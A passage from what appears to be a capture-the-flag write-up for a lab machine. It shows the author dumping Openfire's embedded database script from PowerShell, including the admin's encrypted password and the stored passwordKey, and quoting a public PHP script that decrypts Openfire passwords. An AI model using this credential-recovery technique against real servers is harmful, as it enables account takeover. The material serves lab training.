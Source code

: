 In the `embedded-db` folder there’s some small files and `openfire.script`:

```

PS C:\Program Files\openfire\embedded-db> ls

    Directory: C:\Program Files\openfire\embedded-db

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         5/17/2024   9:53 PM                openfire.tmp
-a----         5/17/2024   9:53 PM              0 openfire.lck
-a----         5/17/2024   9:53 PM            161 openfire.log
-a----         5/17/2024   9:53 PM            106 openfire.properties
-a----          5/7/2024   9:15 PM          16161 openfire.script

```

Inside of it, there’s a couple lines with what look like credentials being set:

```

PS C:\Program Files\openfire\embedded-db> cat openfire.script
SET DATABASE UNIQUE NAME HSQLDB8BDD3B2742
SET DATABASE GC 0
SET DATABASE DEFAULT RESULT MEMORY ROWS 0
...[snip]...
CREATE USER SA PASSWORD DIGEST 'd41d8cd98f00b204e9800998ecf8427e'
...[snip]...
INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e15
9a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@solarlab.htb','001700223740785','0')
q
...[snip]...
INSERT INTO OFPROPERTY VALUES('passwordKey','hGXiFzsKaAeYLjn',0,NULL)
...[snip]...

```

The SA password hash is the MD5 sum of the empty string, so that’s not too interesting.

### Decrypt

#### Find Script

Searching for Openfire password decrypt, I’ll find [this repo](https://github.com/shakaw/openfire-password-decrypt). It’s got a PHP script to decrypt a password taking the `$ciphertext` and `$key`:

```

<?
function decrypt_openfirepass($ciphertext, $key) {
	$cypher = 'blowfish';
	$mode   = 'cbc';
	$sha1_key = sha1($key, true);
	$td = mcrypt_module_open($cypher, '', $mode, '');
	$ivsize    = mcrypt_enc_get_iv_size($td);
	$iv = substr(hex2bin($ciphertext), 0, $ivsize);
	$ciphertext = substr(hex2bin($ciphertext), $ivsize);
	if ($iv) {
		mcrypt_generic_init($td, $sha1_key, $iv);
		$plaintext = mdecrypt_generic($td, $ciphertext);
	}
	return $plaintext;
}
```